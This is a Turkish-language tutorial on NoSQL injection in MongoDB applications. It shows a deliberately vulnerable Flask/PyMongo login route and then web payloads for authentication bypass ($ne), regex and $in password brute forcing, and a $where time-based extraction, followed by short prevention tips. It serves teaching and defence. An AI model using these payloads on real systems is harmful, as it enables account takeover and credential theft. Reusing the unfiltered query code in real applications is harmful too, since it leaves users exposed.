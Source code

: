 # NoSQL Injection
NoSQL Injection, web uygulamalarında kullanılan MongoDB gibi NoSQL tabanlı veritabanlarının kullanıcı girdisini doğru şekilde filtrelemeden sorgulara dahil etmesi sonucu ortaya çıkan kritik bir güvenlik açığıdır. SQL Injection ile benzer mantığa sahiptir, ancak klasik SQL yerine JSON benzeri query yapıları manipüle edilir. Bu zafiyet sayesinde saldırgan authentication bypass, yetkisiz veri erişimi, veri manipülasyonu ve bazı durumlarda remote code execution gerçekleştirebilir.

NoSQL Injection genellikle şu koşullarda görülür:
- Kullanıcı girdisinin doğrudan MongoDB query objesine eklenmesi
- Query operatörlerinin ($ne, $gt, $regex, $where) filtrelenmemesi

Sonuç: Saldırgan login atlatma, hassas verileri çekme, yetki yükseltme gibi saldırılar gerçekleştirebilir.

# NoSQL Injection Saldırısının İşleyişi
Aşağıda, NoSQL Injection zafiyetine sahip basit bir Flask + PyMongo uygulaması örneği bulunmaktadır:
```py
from flask import Flask, request
from pymongo import MongoClient

app = Flask(__name__)
client = MongoClient("mongodb://localhost:27017/")
db = client["usersdb"]
users = db["users"]

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')
    
    # Kullanıcı girdisi direkt olarak Mongo query'e aktarılıyor
    user = users.find_one({"username": username, "password": password})
    
    if user:
        return "Login başarılı! Hoşgeldin " + user['username']
    else:
        return "Login başarısız!"
    
if __name__ == "__main__":
    app.run(debug=True)
```

Geliştirici, normalde girişin şu şekilde çalışacağını varsayar:
```http
POST /login
username=baran&password=123456
```

Ancak saldırgan aşağıdaki payload ile authentication atlatabilir:
```http
POST /login
username[$ne]=foo&password[$ne]=bar
```

MongoDB query şu hale gelir:
```
{ "username": { "$ne": "foo" }, "password": { "$ne": "bar" } }
```

Bu sorgu, “username foo değil ve password bar değil” koşulunu sağlayan herhangi bir kullanıcıyı döndürecektir.

# NoSQL Syntax Injection
Syntax Injection, uygulamanın beklediği basit string değer yerine doğrudan query syntax’ını manipüle edecek input verilmesidir.
Klasik örnek:
```
POST /login
username=baran' || '1'=='1&password=foo
```

Eğer backend tarafında kullanıcı girdisi string escape edilmeden sorguya ekleniyorsa, NoSQL query objesi şu hale gelebilir:
```
{ "username": "baran' || '1'=='1", "password": "foo" }
```

# NoSQL Operator Injection
Operator Injection, NoSQL’in desteklediği özel operatörleri ($ne, $gt, $in, $regex, $where) parametre içine enjekte ederek sorguyu değiştirmektir.
Örnek payload:
```
POST /login
username[$ne]=foo&password[$ne]=bar
```

Sorgu şu hale gelir:
```
{ "username": { "$ne": "foo" }, "password": { "$ne": "bar" } }
```

## Exploiting Syntax Injection to Extract Data
Syntax Injection, genellikle hata mesajları veya response farkları üzerinden data extraction için kullanılabilir.

Örnek senaryo:
```
username=admin' && this.password[0]=='a' || '1'=='1&password=foo
```

Eğer backend eval() veya where benzeri bir query parse ediyorsa, saldırgan password alanının karakterlerini boolean tabanlı testlerle brute-force edebilir.

## Exploiting NoSQL Operator Injection to Extract Data
Operator Injection, özellikle $regex ve $where kullanılarak data extraction için güçlüdür.

### Regex tabanlı brute force
```
username=admin&password[$regex]=^a.*
```

Eğer şifre “a” ile başlıyorsa login başarılı.

Sonraki adım:
```
username=admin&password[$regex]=^ab.*
```

Yanıt farklılığı şifre karakterlerini ortaya çıkarır.

### $in Operatörü
```
username=admin&password[$in]=["123456","password","qwerty"]
```

Şifre hangi listedeyse login başarılı olur. Wordlist ile brute force hızlanır.

### $where tabanlı zaman ölçümü
```
username=admin&password[$where]=function(){ if(this.password.charAt(0)=='a'){ sleep(5000); } return true; }
```

Yanıt gecikmesi üzerinden password ilk karakteri çıkarılabilir.

# NoSQL Injection Zafiyetini Önlemek
## Parametrik Query Kullanımı
- Kullanıcı girdisini doğrudan sorguya koyma. Mümkünse ORM/ODM (Mongoose, SQLAlchemy benzeri) kullan.

## $where ve JavaScript Execution Devre Dışı Bırakma
- MongoDB’de --noscripting parametresi kullanılmalı.

## ORM/ODM Doğrulama Mekanizmaları
- Mongoose gibi ODM’lerde schema validation zorunlu kıl.